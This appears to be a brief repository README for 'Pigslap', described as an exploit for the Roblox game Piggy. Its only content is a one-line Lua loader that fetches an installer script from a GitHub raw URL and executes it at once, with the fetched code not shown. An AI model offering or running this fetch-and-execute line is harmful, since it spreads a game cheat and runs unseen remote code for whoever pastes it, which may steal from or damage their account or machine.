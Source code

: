 # Pigslap (Internal Exploit for Piggy)

loadstring(game:HttpGet("https://raw.githubusercontent.com/fdz6/pigslap/refs/heads/main/installer.lua", true))()
